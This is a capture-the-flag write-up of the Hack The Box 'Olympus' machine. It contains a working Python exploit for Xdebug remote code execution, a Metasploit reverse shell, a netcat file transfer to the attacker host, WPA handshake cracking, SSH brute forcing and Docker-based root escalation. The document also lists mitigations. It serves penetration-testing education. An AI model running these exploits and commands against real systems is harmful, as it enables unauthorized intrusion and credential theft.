

# Write-Up: Olympus - Medium | [Machines](../../../MACHINES.md)

>  **Platform**: Hack The Box\
>  **Operating System**: Linux\
>  **Difficulty**: Medium\
>  **Author**: Fokos Nikolaos\
>  **Completion Date**: 17-08-2025\
>  **Objective**: Capture `user.txt` and `root.txt` flags

---

# Banner



---

# Summary

This write-up details the process of gaining access to the exciting **Olympus** machine. Initial enumeration revealed several **open ports**, including a **web server on port 80** and a **non-standard SSH port on 2222**. A review of the web server's headers showed an ***old version of Xdebug***, which was exploited using a custom made script and a Metasploit module to gain an initial shell as `www-data`.

**Privilege escalation** to the `icarus` user was achieved by **transferring** and **cracking** a captured wireless **handshake file** (`captured.cap`), revealing the login credentials. Further enumeration led to the discovery of a ***DNS zone transfer*** vulnerability, which provided new credentials and a sequence of ports for **port knocking**. This method granted SSH access to the `prometheus` user. Finally, **root access** was obtained by leveraging the `prometheus` user's membership in the `docker` group to **mount** the **host's root file system** inside a **rooted container**.

---

## Target Enumeration

### Nmap scan

Starting off with an `nmap` scan to the target IP, using version discovery and utilizing NSE defaults. 

#### Parameters:
- `-sV` Initiate a version scan for found services.
- `-sC` Execute default scripts from Nmap Scripting Engine (NSE).

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sV -sC 10.129.124.136   
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-14 06:57 EDT
Nmap scan report for 10.129.124.136
Host is up (0.060s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE    SERVICE VERSION
22/tcp   filtered ssh
53/tcp   open     domain  (unknown banner: Bind)
| dns-nsid: 
|_  bind.version: Bind
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|     bind
|_    Bind
80/tcp   open     http    Apache httpd
|_http-title: Crete island - Olympus HTB
|_http-server-header: Apache
2222/tcp open     ssh     (protocol 2.0)
| ssh-hostkey: 
|   2048 f2:ba:db:06:95:00:ec:05:81:b0:93:60:32:fd:9e:00 (RSA)
|   256 79:90:c0:3d:43:6c:8d:72:19:60:45:3c:f8:99:14:bb (ECDSA)
|_  256 f8:5b:2e:32:95:03:12:a3:3b:40:c5:11:27:ca:71:52 (ED25519)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-City of olympia
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port53-TCP:V=7.95%I=7%D=8/14%Time=689DC11C%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,3F,"\0=\0\x06\x85\0\0\x01\0\x01\0\x01\0\0\x07version\x
SF:04bind\0\0\x10\0\x03\xc0\x0c\0\x10\0\x03\0\0\0\0\0\x05\x04Bind\xc0\x0c\
SF:0\x02\0\x03\0\0\0\0\0\x02\xc0\x0c");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port2222-TCP:V=7.95%I=7%D=8/14%Time=689DC117%P=x86_64-pc-linux-gnu%r(NU
SF:LL,29,"SSH-2\.0-City\x20of\x20olympia\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\r\n");

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.28 seconds
```

#### Results:
- `22/tcp: filtered - ssh`
- `53/tcp: open - domain - (unknown banner: Bind)`
- `80/tcp: open - http - Apache httpd`
- `2222/tcp: open - ssh - (protocol 2.0)`

---

## Web Enumeration

Visiting `http://10.129.124.136`, a simple page is found with an image, possibly depicting **Poseidon**.

Inspecting the page source code, there's not much to be discovered.

```html
<!DOCTYPE HTML>
<html>
	<head>
		<title>Crete island - Olympus HTB</title>
		<meta http-equiv="Content-Type" content="text/html; charset=UTF-8"/>
		<link rel="shortcut icon" href="favicon.ico">
		<link rel="stylesheet" type="text/css" href="crete.css">
	</head>
      <body class="crete">
	</body>
</html>
```

Taking a look at the **Response** headers under **Network**, using **Web Developer Tools** (CTRL + SHIFT + i), a reference to XDebug is found. Specifically `Xdebug: 2.5.5`.

[Xdebug](https://xdebug.org/) is an open-source debugging and profiling utility for PHP code.

---

## Exploitation

In this write-up, both manual and automated exploitation is demonstrated for [CVE-2015-10141](https://nvd.nist.gov/vuln/detail/CVE-2015-10141).

### Manual Exploitation

A known exploit for `Xdebug: 2.5.5`, suggests that when the remote debugging is enabled, Xdebug listens on port 9000 and accepts debugger protocol commands without authentication. We can use this vulnerability to craft our own exploitation script.

We create a script that will listen on localhost:9000 and grant us an interactive shell. You can find my Proof-of-Concept also on my [GitHub](https://github.com/n0m4d22/PoC-CVE-2015-10141-Xdebug)!

```python
import socket
import base64
import re
import sys
import subprocess

def parse_xdebug_response(data):
   # Seperate received data for decoding
   match = re.search(r'<!\[CDATA\[(.*?)\]\]>', data)
   if match:
      encoded_data = match.group(1)
      try:
         # Return decoded reponse
         return base64.b64decode(encoded_data).decode('utf-8')
      except (base64.binascii.Error, UnicodeDecodeError):
         return "An error occured while decoding the base64 data."
   return "No XML response was found."

def xdebug_shell(host, port, init):
   try:
      # Create a new socket
      sk = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
      sk.bind((host, port))
      sk.listen(1)
      print(f"[*] Connecting to {host}:{port} ...")
      # Create a subprocess to connect on Xdebug host.
      print(f"[*] Initializing debugging: {init}")
      subprocess.Popen(init, shell=True, stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL)
      
      connection, address = sk.accept()
      print(f"[*] Connection to {address} established.")
   except socket.error as e:
      print(f"[-] Connection failed: {e}")
      return
   except subprocess.CalledProcessError as e:
        print(f"[-] An error occuring while connecting to Xdebug: {e}")
        return

   # Fetch the initial response from the server
   initial_response = connection.recv(4096).decode('utf-8')

   while True:
      try:
         # Enter command as ser input 
         command_input = input('$ ')
         # Try again if no input was provided to avoid breaking the script
         if not command_input:
            continue
            
         # Parse the command to Xdebug (PHP system() call) function
         php_command = f'system("{command_input}")'
         encoded_command = base64.b64encode(php_command.encode('utf-8')).decode('utf-8')
         full_command = f"eval -i 1 -- {encoded_command}\x00".encode('utf-8')
            
         # Send the command to the server
         connection.sendall(full_command)

         # Fetch the command from the server
         response = connection.recv(4096).decode('utf-8')
         
         # Check for empty response
         if not response:
            print("[-] Connection closed.")
            break

         # Deconde and print the response 
         print(parse_xdebug_response(response))

      except (socket.error, ConnectionResetError) as e:
         print(f"[-] Connection error: {e}")
         break
      except KeyboardInterrupt:
         print("\nExiting interactive shell.")
         break

   connection.close()
   sk.close()

if __name__ == "__main__":
   xdebug_host = '0.0.0.0'
   xdebug_port = 9000
   target_host = input("[*] Target IP: ")
   init = 'curl http://' + target_host + ' -H "Cookie: XDEBUG_SESSION=olympus"'
   xdebug_shell(xdebug_host, xdebug_port, init)
```

This custom script, will create for us an interactive shell.

```bash
┌──(kali㉿kali)-[~]
└─$ python exploit.py
[*] Target IP: 10.129.124.136
[*] Connecting to 0.0.0.0:9000 ...
[*] Initializing debugging: curl http://10.129.124.136 -H "Cookie: XDEBUG_SESSION=olympus"
[*] Connection to ('10.129.124.136', 36354) established.
$ whoami
www-data
```

### Automated Exploitation

Since the version is known, searching for exploits using `searchsploit`, reveals an RCE (Remote Code Execution) vulnerability.

```bash
┌──(kali㉿kali)-[~]
└─$ searchsploit xdebug        
---------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                          |  Path
---------------------------------------------------------------------------------------- ---------------------------------
xdebug < 2.5.5 - OS Command Execution (Metasploit)                                      | php/remote/44568.rb
---------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

The exploit can be found under `/usr/share/exploitdb/explots/php/remote`.

Trying to execute the Ruby file, an error message, informs us that it's a Metasploit module.

```bash
┌──(kali㉿kali)-[~]
└─$ ruby /usr/share/exploitdb/exploits/php/remote/44568.rb

/usr/share/exploitdb/exploits/php/remote/44568.rb:6:in `<main>': uninitialized constant Msf (NameError)

class MetasploitModule < Msf::Exploit::Remote
```

Using `msfconsole`, we searching for relevant exploits, and find a similar module.

```bash                             
┌──(kali㉿kali)-[~]
└─$ msfconsole --quiet    
msf6 > search exploit xdebug

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/http/xdebug_unauth_exec  2017-09-17       excellent  Yes    xdebug Unauthenticated OS Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/http/xdebug_unauth_exec
```

Using the found exploit, the target, listening port and listening host are defined.

```bash
msf6 > use 0
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(unix/http/xdebug_unauth_exec) > options

Module options (exploit/unix/http/xdebug_unauth_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   PATH     /index.php       yes       Path to target webapp
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]. Supported proxies:
                                       socks5, socks5h, sapni, http, socks4
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/
                                       using-metasploit.html
   RPORT    80               yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       Callback host for accepting connections
   SRVPORT  9000             yes       Port to listen for the debugger
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


View the full module info with the info, or info -d command.

msf6 exploit(unix/http/xdebug_unauth_exec) > set rhosts 10.129.124.136
rhosts => 10.129.124.136
msf6 exploit(unix/http/xdebug_unauth_exec) > set lhost 10.10.14.66
lhost => 10.10.14.66
```

After the completion of the necessary setup, we proceed to the exploitation of our target.

```bash
msf6 exploit(unix/http/xdebug_unauth_exec) > run
[*] Started reverse TCP handler on 10.10.14.66:4444 
[*] 10.129.124.136:80 - Waiting for client response.
[*] 10.129.124.136:80 - Receiving response
[*] 10.129.124.136:80 - Shell might take upto a minute to respond.Please be patient.
[*] 10.129.124.136:80 - Sending payload of size 2026 bytes
[*] Sending stage (40004 bytes) to 10.129.124.136
[*] Meterpreter session 1 opened (10.10.14.66:4444 -> 10.129.124.136:48782) at 2025-08-14 07:40:26 -0400

meterpreter > shell
Process 23 created.
Channel 0 created.
whoami
www-data
```

After our target has successfully been exploited, a reverse shell is spawned, allowing system command execution.

---

## User Flag

Having the initial foothold on the target, it's time to get user access.

Currently we are logged as `www-data`. Enumerating the filesystem, we search for useful configuration files, logs, and anything that can provide sufficient information to gain user access.

Starting off by searching on `/home`, the user `zeus` is found. Inside the directory there is a `airgeddon` sub-directory containing binaries, and installation configurations.

Peeking into each file and directory, we find in `captured` a `captured.cap` file, following the extension that `airodump-ng` usually adds, for captured wireless network handshakes.

We can attempt to crack the captured key using `aircrack-ng`. First we have to find a way to transfer the file to our system. Attempting to open a local python server on port 8080, had no result as `python` and `python3` binaries, are not found on our target's system.

Instead, we will user `netcat` to host the file, and then fetch it from our machine.

***Target Machine***: Make the file available to target's port 8888

```bash
nc -w 3 10.10.14.66 8888 < captured.cap
```

***Host Machine***: Receive file from target's port 8888

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lp 8888 > captured.cap
```

The file `captured.cap` should be available on our machine. To check the received file integrity, we check and compare the two MD5 checksums.

***Target Machine***: Check `captured.cap` checksum

```bash
md5sum captured.cap
2a86b639f23067dd95a5e0b5f616ef20  captured.cap
```

***Host Machine***: Check the received file's checksum

```bash
┌──(kali㉿kali)-[~]
└─$ md5sum captured.cap
2a86b639f23067dd95a5e0b5f616ef20  captured.cap
```

If the checksums do not match, the file hasn't been transferred correctly.

Viewing the received file with `wireshark`, we notice the targeted SSID: `Too_cl0se_to_th3_Sun`. Then multiple deauthentication requests are sent, to probably capture the handshake. We can crack the captured key, using `aircrack-ng`.

```bash
┌──(kali㉿kali)-[~]
└─$ aircrack-ng captured.cap 
Reading packets, please wait...
Opening captured.cap
Resetting EAPOL Handshake decoder state.
Resetting EAPOL Handshake decoder state.
Read 6498 packets.

   #  BSSID              ESSID                     Encryption

   1  F4:EC:38:AB:A8:A9  Too_cl0se_to_th3_Sun      WPA (1 handshake)

Choosing first network as target.

Reading packets, please wait...
Opening captured.cap
Resetting EAPOL Handshake decoder state.
Resetting EAPOL Handshake decoder state.
Read 6498 packets.

1 potential targets

Please specify a dictionary (option -w).
```

Knowing the BSSID of the targeted network, we proceed to crack the key.

```bash
┌──(kali㉿kali)-[~]
└─$ aircrack-ng --bssid F4:EC:38:AB:A8:A9 -w /usr/share/wordlists/rockyou.txt captured.cap
Reading packets, please wait...
Opening captured.cap
Resetting EAPOL Handshake decoder state.
Resetting EAPOL Handshake decoder state.
Read 6498 packets.

1 potential targets


                               Aircrack-ng 1.7 

      [00:09:49] 8134433/14344392 keys tested (14002.66 k/s) 

      Time left: 7 minutes, 23 seconds                          56.71%

                        KEY FOUND! [ flightoficarus ]


      Master Key     : FA C9 FB 75 B7 7E DC 86 CC C0 D5 38 88 75 B8 5A 
                       88 3B 75 31 D9 C3 23 C8 68 3C DB FA 0F 67 3F 48 

      Transient Key  : 0C 5C 1C 84 60 FA 34 DE C0 4F 35 F6 4F 03 A2 0F 
                       8F 6F 5E 20 05 27 E1 73 E0 73 F5 F1 2D AF D1 17 
                       8B F8 27 C6 BE 23 E3 70 8A EF 4A CC CA 0B EE 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 

      EAPOL HMAC     : AC 1A 73 84 FB BF 75 9C 86 CF 5B 5A F4 8A 4C 38
```

The key is found as `flightoficarus`. Trying to figure out how can we work with a BSSID and an access point key, we try to spray the SSH login with `hydra`. We can use already found keywords and make our own wordlist to brute force the SSH login.

```bash
──(kali㉿kali)-[~]
└─$ echo poseidon'\n'flightoficarus'\n'icarus'\n'prometheus'\n'Too_cl0se_to_th3_Sun > keywords     

┌──(kali㉿kali)-[~]
└─$ hydra -L keywords -P keywords ssh://10.129.124.136:2222                                    
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-08-15 07:02:52
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 25 login tries (l:5/p:5), ~2 tries per task
[DATA] attacking ssh://10.129.124.136:2222/
[2222][ssh] host: 10.129.124.136   login: icarus   password: Too_cl0se_to_th3_Sun
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-08-15 07:02:57                                                                    
```

We successfully brute-forced the SSH login credentials. Next we login and gain user-access to the system.

```bash
┌──(kali㉿kali)-[~]
└─$ ssh icarus@10.129.124.136 -p 2222
icarus@10.129.124.136's password: 
Last login: Sun Aug 17 08:59:45 2025 from 10.10.14.66
icarus@620b296204a3:~$ 
```

Judging by the hostname `620b296204a3`, it's fairly simple to understand that we are logged in a Docker container. Inside the current directory `/home/icarus`, the file `help_of_the_gods.txt` is found.

```bash
icarus@620b296204a3:~$ cat help_of_the_gods.txt 

Athena goddess will guide you through the dark...

Way to Rhodes...
ctfolympus.htb
```

The file specifies another domain `ctfolympus.htb`. We attempt to make a DNS zone transfer using the **AXFR** (Asynchronous Full Zone Transfer) protocol.

```bash
┌──(kali㉿kali)-[~]
└─$ dig axfr @10.129.124.136 ctfolympus.htb

; <<>> DiG 9.20.11-4-Debian <<>> axfr @10.129.124.136 ctfolympus.htb
; (1 server found)
;; global options: +cmd
ctfolympus.htb.         86400   IN      SOA     ns1.ctfolympus.htb. ns2.ctfolympus.htb. 2018042301 21600 3600 604800 86400
ctfolympus.htb.         86400   IN      TXT     "prometheus, open a temporal portal to Hades (3456 8234 62431) and St34l_th3_F1re!"
ctfolympus.htb.         86400   IN      A       192.168.0.120
ctfolympus.htb.         86400   IN      NS      ns1.ctfolympus.htb.
ctfolympus.htb.         86400   IN      NS      ns2.ctfolympus.htb.
ctfolympus.htb.         86400   IN      MX      10 mail.ctfolympus.htb.
crete.ctfolympus.htb.   86400   IN      CNAME   ctfolympus.htb.
hades.ctfolympus.htb.   86400   IN      CNAME   ctfolympus.htb.
mail.ctfolympus.htb.    86400   IN      A       192.168.0.120
ns1.ctfolympus.htb.     86400   IN      A       192.168.0.120
ns2.ctfolympus.htb.     86400   IN      A       192.168.0.120
rhodes.ctfolympus.htb.  86400   IN      CNAME   ctfolympus.htb.
RhodesColossus.ctfolympus.htb. 86400 IN TXT     "Here lies the great Colossus of Rhodes"
www.ctfolympus.htb.     86400   IN      CNAME   ctfolympus.htb.
ctfolympus.htb.         86400   IN      SOA     ns1.ctfolympus.htb. ns2.ctfolympus.htb. 2018042301 21600 3600 604800 86400
;; Query time: 46 msec
;; SERVER: 10.129.124.136#53(10.129.124.136) (TCP)
;; WHEN: Sun Aug 17 05:10:26 EDT 2025
;; XFR size: 15 records (messages 1, bytes 475)
```

The output provides us with the text: ***prometheus**, open a temporal portal to Hades (3456 8234 62431) and **St34l_th3_F1re!***.

We can assume that new credentials are provided `prometheus:St34l_th3_F1re!`, for possible system access along with ports to be used for **Port Knocking** (`3456`, `8234`, `62431`), to open port `22`. This technique is used to protect network services (SSH in our case), by making them inaccessible until a specific sequence of connection attempts (the "knock") is received.

Initiating an `nmap` scan on port `22` we find that it is `filtered`.

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -p22 10.129.124.136
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-17 07:24 EDT
Nmap scan report for 10.129.124.136
Host is up (0.067s latency).

PORT   STATE    SERVICE
22/tcp filtered ssh

Nmap done: 1 IP address (1 host up) scanned in 17.48 seconds
```

We will use `knock` (part of `knockd` package) to initiate a port knocking on `3456`, `8234`, `62431` and re-run `nmap`.

```bash                          
┌──(kali㉿kali)-[~]
└─$ knock -v 10.129.124.136 3456 8234 62431 -d 1000
hitting tcp 10.129.124.136:3456
hitting tcp 10.129.124.136:8234
hitting tcp 10.129.124.136:62431
```

After port knocking, the SSH port `22` appears `open`.

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -p22 10.129.124.136 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-17 07:25 EDT
Nmap scan report for 10.129.124.136
Host is up (0.050s latency).

PORT   STATE SERVICE
22/tcp open  ssh

Nmap done: 1 IP address (1 host up) scanned in 13.24 seconds
```

We proceed to login via SSH with the provided credentials. First we run `knock` to initiate the port knocking and continue with the SSH connection.

After hitting each port, we receive a response to our SSH request for `prometheus`'s password.

```bash
┌──(kali㉿kali)-[~]
└─$ knock -v 10.129.124.136 3456 8234 62431 -d 1000 && ssh prometheus@10.129.124.136
hitting tcp 10.129.124.136:3456
hitting tcp 10.129.124.136:8234
hitting tcp 10.129.124.136:62431
prometheus@10.129.124.136's password: 

Welcome to
                            
    )         (             
 ( /(     )   )\ )   (      
 )\()) ( /(  (()/(  ))\ (   
((_)\  )(_))  ((_))/((_))\  
| |(_)((_)_   _| |(_)) ((_) 
| ' \ / _` |/ _` |/ -_)(_-< 
|_||_|\__,_|\__,_|\___|/__/ 
                           
prometheus@olympus:~$ 
```

We are now logged in the system as `prometheus`.

The `user.txt` flag can be found under `/home/prometheus`.

---

## Root Flag

Under our home directory we find a `msg_of_gods.txt` file but doesn't provide any useful information.

```bash
prometheus@olympus:~$ cat msg_of_gods.txt 

Only if you serve well to the gods, you'll be able to enter into the

      _                           
 ___ | | _ _ ._ _ _  ___  _ _  ___
/ . \| || | || ' ' || . \| | |<_-<
\___/|_|`_. ||_|_|_||  _/`___|/__/
        <___'       |_|           
```

Running `sudo -l` to check for root-enabled binaries, had no result, returning an error message for missing `sudo` configuration.

```bash
prometheus@olympus:~$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for prometheus: 
Sorry, user prometheus may not run sudo on olympus.
```

Next we try `id` to view our user's groups.

```bash
prometheus@olympus:~$ id
uid=1000(prometheus) gid=1000(prometheus) groups=1000(prometheus),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),111(bluetooth),999(docker)
```

It seems `prometheus` is part of the `docker` group, and therefore can execute Docker commands.

Trying to list all Docker images with `docker images`, we find various entries.

```bash
prometheus@olympus:~$ docker images 
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
crete               latest              31be8149528e        7 years ago         450MB
olympia             latest              2b8904180780        7 years ago         209MB
rodhes              latest              82fbfd61b8c1        7 years ago         215MB
```

We found three Docker images: `crete`, `olympia` and `rhodes`. Trying to access the first image with `docker run`, we enter the first `zeus` container.

```bash
prometheus@olympus:~$ docker run -it crete /bin/bash
root@ca7897b5c74d:/home/zeus/airgeddon#
```

Continuing with the second image, we enter a `root` container.

```bash
prometheus@olympus:~$ docker run -it olympia /bin/bash
root@0699c227aaba:/# 
```

Entering the third container, we have another `root` enabled shell.

```bash
prometheus@olympus:~$ docker run -it rodhes /bin/bash
cat: /etc/hostip: No such file or directory
root@9514f22f1505:/#
```

We currently have a couple of containers providing us a `root` shell. Running `lsblk`, shows the partition where the `root` of the filesystem is stored (`/`).

```bash
prometheus@olympus:~$ lsblk
NAME   MAJ:MIN RM SIZE RO TYPE MOUNTPOINT
sda      8:0    0   6G  0 disk 
├─sda1   8:1    0   4G  0 part /
├─sda2   8:2    0   1K  0 part 
└─sda5   8:5    0   2G  0 part [SWAP]
```

Entering each container, we notice that we don't have access to any system partition.

```bash
prometheus@olympus:~$ docker run -it olympia /bin/bash
root@e69e45fd65ce:/# ls /dev
console  core  fd  full  mqueue  null  ptmx  pts  random  shm  stderr  stdin  stdout  tty  urandom  zero
```

We exit the `tty` and mount the `root` partition directly from the `docker` command instead.

```bash
rometheus@olympus:~$ docker run -v /:/mnt/sda1 -it olympia /bin/bash
root@9a17dee7b24b:/# ls /mnt/sda1
bin   dev  home        initrd.img.old  lib64       media  opt   root  sbin  sys  usr  vmlinuz
boot  etc  initrd.img  lib             lost+found  mnt    proc  run   srv   tmp  var  vmlinuz.old
```

The `root` (or `/`) of the filesystem is mounted, and the `root.txt` flag can be found under `/dev/sda1/root`.

---

## Vulnerabilities

- ***Xdebug Remote Code Execution (RCE)***
    - **Type**: Server-Side Vulnerability 

    - **Description**: The server was running an outdated version of Xdebug (`< 2.5.5`) which had a known remote code execution vulnerability. This allowed an attacker to execute arbitrary commands on the server by leveraging the Xdebug service on the web port (`80`). 

    - **Impact**: Initial foothold on the system as the web-server `www-data` user, providing a starting point for further enumeration and privilege escalation.

    - **Mitigation**: Update Xdebug to a secure version and disable debugging tools in production.
  
-  ***Weak Credentials & Exposed Passwords***
   -  **Type**: Access Control & Weak Authentication

   - **Description**: The password for the `icarus` user was found in a common wordlist (`rockyou.txt`) and was easily crackable from a captured Wi-Fi handshake file. Additionally, the password for the `prometheus` user was found in a DNS zone transfer.

   - **Impact**: Led to unauthorized user access, first to the `icarus` user on a Docker container and subsequently to the `prometheus` user on the main system.

   - **Mitigation**: Enforce strong password policies, and avoid using sensitive information in easily accessible files like DNS records or textfiles.

-  ***DNS Zone Transfer (AXFR)***
   -  **Type**: Information Disclosure
  
   -  **Description**: The DNS server on port `53` was misconfigured, allowing unauthenticated zone transfers via the AXFR protocol. This exposed sensitive information, including credentials, and port knocking sequence details.

   -  **Impact**: This vulnerability provided the attacker with critical information needed to escalate privileges and gain access as a system user.

   -  **Mitigation**: Restrict or disable DNS zone transfers, if it is not explicitly required for network operations.

- ***Insecure Docker Configuration***
   - **Type**: Misconfiguration

   - **Description**: The `prometheus` user was a member of the `docker` group, which allows users to execute Docker commands. An attacker can use this privilege to mount the host's root file system into a rooted container, gaining full read/write access to the host's files.

   - **Impact**: Complete system compromise 

   - **Mitigation**: Regularly review user permissions and group members to ensure they adhere to the principle of least privilege.

---

## Learning Outcome

Through exploiting **Olympus**, the following skills and concepts were taught and reinforced:

- ***Initial Enumeration & Information Gathering***
  - The ability to identify open ports, running services, and specific software versions (like Xdebug) using tools like Nmap. This includes understanding the importance of analyzing HTTP headers and other seemingly small details to find potential entry points.
  
- ***Web Vulnerability Exploitation***
  - Gained practical experience in exploiting a known Remote Code Execution (RCE) vulnerability in an outdated software version. This reinforced the concept of using a Metasploit module to automate the exploitation process and gain an initial shell.

- ***Wireless Network Analysis***
  - Learned how to work with captured network traffic, specifically a Wi-Fi handshake file (`.cap`), to analyze and crack passwords using `aircrack-ng`. This highlighted how an attacker can leverage information from one part of the system (a user's home directory) to compromise another.

- ***DNS Misconfiguration***
  - Understood the security implications of a misconfigured DNS server that allows for unauthenticated zone transfers (AXFR). This demonstrated how sensitive information, such as internal hostnames, credentials, and network configurations, can be leaked and used by an attacker.

- ***Port Knocking***
  - Learned to identify and use a port-knocking sequence to access a hidden service, in this case, a standard SSH port. This is a crucial concept for bypassing simple port filtering and discovering services that are not openly advertised.

- ***Docker Privilege Escalation***
  - Understood how a user's membership in the `docker` group can be leveraged as a powerful privilege escalation vector. This reinforced the technique of mounting the host's filesystem into a rooted container to gain root access to the entire machine.

- ***Custom Exploit Development***
  - Designed and implemented a Python script to exploit the Xdebug protocol (CVE-2015-10141), reinforcing skills in socket programming, debugging protocols, and manual RCE exploitation.

- ***Exploit Research & CVE Analysis***
  - Learned to correlate vulnerable software versions with official CVE records and adapt proof-of-concept exploits into functional tools.

- ***Secure Coding Awareness***
  - Understood the risks of exposing debugging tools in production environments, and the importance of timely patching, hardening configurations, and applying the principle of least privilege.

---

## Tools Used

`aircrack-ng`, `dig`, `docker`, `hydra`, `knock`, `md5sum`, `msfconsole`, `searchsploit`, `ssh`

---

## References

- https://en.wikipedia.org/wiki/DNS_zone_transfer
- https://wiki.archlinux.org/title/Port_knocking
- https://www.exploit-db.com/exploits/44568
- https://nvd.nist.gov/vuln/detail/CVE-2015-10141
- https://www.aircrack-ng.org/documentation.html